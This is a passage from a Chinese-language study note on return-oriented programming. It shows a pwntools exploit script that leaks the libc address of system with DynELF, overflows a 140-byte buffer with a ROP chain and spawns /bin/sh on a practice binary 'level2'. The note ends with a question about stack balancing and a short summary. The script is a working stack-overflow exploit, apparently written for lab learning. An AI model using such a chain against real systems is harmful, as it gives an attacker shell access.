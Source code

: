```
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data


p = process('./level2')
#p = remote('127.0.0.1', 10002)

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
#payload2 = 'a'*140 + p32(plt_read) + p32(vulfun_addr) + p32(0) +p32(bss_addr) + p32(8)
#payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
#payload必须要pppr来保持栈平衡
#ss = raw_input()

print "\n###sending payload2 ...###"
p.send(payload2)
#ss = raw_input()
p.send("/bin/sh\0")
#p.send("/bin/sh\0")

p.interactive()
```


问题：payload2为什么一定要pppr来保持栈平衡


### 总结
简单学习了ROP攻击的基本原理和一些例子的解析。


